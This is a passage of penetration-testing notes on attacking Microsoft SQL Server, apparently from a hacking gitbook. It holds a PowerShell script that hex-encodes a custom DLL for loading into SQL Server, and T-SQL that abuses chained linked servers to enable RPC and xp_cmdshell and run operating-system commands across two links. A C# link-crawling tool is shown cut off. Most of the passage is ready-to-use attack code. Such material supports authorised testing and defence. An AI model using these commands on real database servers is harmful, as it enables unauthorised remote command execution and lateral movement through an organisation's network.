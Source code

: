 Convert custom assembly DLL to a hex string:

{% code title="Convert-AssemblyToHex.ps1" %}
```powershell
$assemblyFile = "SqlCmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File SqlCmdExec.txt
```
{% endcode %}




## Crawl Links

* [https://blog.netspi.com/how-to-hack-database-links-in-sql-server/](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf](https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf)
* [https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
* [https://xakep.ru/2020/01/24/lateral-movement/#toc01.](https://xakep.ru/2020/01/24/lateral-movement/#toc01.)

Exec code from SQLSRV00 when SQLSRV01 and SQLSRV02 are linked like this SQLSRV00 -> SQLSRV01 -> SQLSRV02:

```
EXEC sp_serveroption 'SQLSRV01','rpc','true';
EXEC sp_serveroption 'SQLSRV01','rpc out','true';

EXEC ('select SYSTEM_USER;') AT SQLSRV01;
EXEC ('EXEC (''select SYSTEM_USER;'') AT SQLSRV02;') AT SQLSRV01;

EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') at SQLSRV01;
EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''',1; RECONFIGURE; EXEC sp_configure ''''xp_cmdshell'''',1; RECONFIGURE;'') at SQLSRV02;') at SQLSRV01;

EXEC ('EXEC xp_cmdshell ''cmd /c ping -n 2 10.10.13.37'';') at SQLSRV01;
EXEC ('EXEC (''EXEC xp_cmdshell ''''cmd /c ping -n 2 10.10.13.37'''';'') at SQLSRV02;') at SQLSRV01;
```

Abusing server links from C# code:

{% code title="SqlCrawlLinks.cs" %}
```csharp
using System;
using System.Data.SqlClient;

namespace SqlCrawlLinks
{
    class Program
    {
        static string sqlQuery(string query, SqlConnection con)
        {
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            string result = "";
            try
            {
                while (reader.Read()) { result += $"{reader[0]}\n"; }
```